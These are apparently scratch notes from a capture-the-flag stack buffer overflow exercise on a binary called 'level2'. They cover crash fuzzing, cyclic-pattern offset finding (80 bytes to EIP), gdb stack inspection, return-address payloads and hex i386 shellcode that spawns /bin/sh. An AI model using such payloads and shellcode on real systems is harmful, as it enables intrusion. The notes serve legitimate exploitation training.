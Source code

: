 


first step checking if the binary vulnerable or not

python -c 'print "A" * 100' | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

find where exactly does it crash

./pattern create 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

SIGSEGV in 0xb7ea4478 in ??



run <<< $(python -c 'print ("-" * 80 + "AAAA")')

"\x08\x04\x84\xe2"[::-1]

$(python -c 'print "-" * 80 + "\x08\x04\x84\xe2"[::-1] ')

there is no system() therefore no shell to jump to

cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Segmentation fault. 
0x61616175

unhex 61616175 | rev ; echo ""

uaaa

cyclic -l uaaa
80

manually calculating the distance between the buffer start address and the EIP

brek at  0x080484f2 <+30>:    mov    0x4(%ebp),%eax

 run <<< "AAAAAAAAAAAAAAAAAAAAAAAAAAAA"
 
info frame

eip at 0xbffff71c

(gdb) x/40wx $esp

0xbffff6b0:     0xbffff6cc      0x00000000      0x00000000      0xb7e5ec73

0xbffff6c0:     0x080482b5      0x00000000      0x00ca0000      0x41414141

(gdb) p/x 0xbffff6c0 + 12

$1 = 0xbffff6cc

(gdb) x 0xbffff6cc

0xbffff6cc:     0x41414141

(gdb) p/d 0xbffff71c - 0xbffff6cc

$3 = 80

shellcraft i386.linux.sh

6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80

python3 -c 'import struct; print(struct.pack(">L", 0x44840408))'



define hook-stop

x/40wx $esp

x/2i $eip

end


